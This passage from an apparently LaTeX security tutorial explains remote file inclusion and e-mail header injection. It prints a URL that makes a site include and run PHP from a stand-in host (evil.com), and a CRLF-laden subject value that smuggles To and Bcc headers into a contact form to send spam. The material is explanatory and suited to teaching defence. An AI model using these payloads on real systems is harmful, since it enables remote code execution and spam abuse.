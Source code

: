 An attacker then could place some malicious code as a text file on some server (for example, at \texttt{http://evil.com/evil.txt}) and then use an URL like this to include that file:

\begin{textcode}
http://www.example.com/index.php?file=http://evil.com/evil.txt
\end{textcode}

As a result, this URL will include and execute the PHP contained in the remote file.


\subsection{E-Mail Header Injection}
\label{header-injection}
E-Mail header injection is an attack that makes use of e-mail forms or other mail functionality that uses untrusted data in e-mail header fields (like \texttt{From:}, \texttt{To:}, \texttt{Cc:} or \texttt{Subject:}).

If header-relevant data in contact forms (like the sender's name or the subject) is not sanitized of linefeeds or carriage returns, it is possible to include additional header lines like bcc:, allowing the form to be misused for sending SPAM e-mails.

The code of a vulnerable e-mail form could look like this:


An attacker then could forge a POST request (either using a HTML file that includes a form or via some program) and include a complete e-mail into the subject field (in the \texttt{email\_subject} POST data):

\begin{textcode}
Buy cheap Viagra!\r\nTo: some-spam-victim@example.org\r\n
  Bcc: other-victim@example.org, other-victim-2@example.org\r\n
  Buy cheap Viagra here: http://spamsite.example.com/\r\n
\end{textcode}

This would result in the following e-mail being send (headers and body):

\begin{textcode}
From: requester@example.com (sender e-mail addres from POST data)
Subject: Buy cheap Viagra!
To: some-spam-victim@example.org
Bcc: other-victim@example.org, other-victim-2@example.org
Buy cheap Viagra here: http://spamsite.example.com/

To: sales@example.com

(e-mail body from POST data)
\end{textcode}



